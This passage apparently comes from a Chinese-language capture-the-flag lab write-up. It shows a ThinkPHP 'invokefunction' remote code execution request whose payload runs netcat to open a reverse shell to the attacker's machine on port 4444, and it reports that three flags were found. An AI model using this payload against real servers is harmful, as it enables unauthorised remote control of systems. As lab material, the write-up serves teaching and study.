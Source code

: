 [![](assets/1705981930-debb03095c56c121260b9310c637fc21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143232-db5385b8-b826-1.png)

反弹 shell:

```bash
http://192.168.179.161/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc 192.168.179.155 4444 -e /bin/bash
```

kali 开启对 4444 端口监听，浏览器执行该 http 请求，得到 shell，并找到 3 个 flag:

[![](assets/1705981930-1c13f7a432db0fdc06faf7f77a09bc19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143248-e52302b2-b826-1.png)
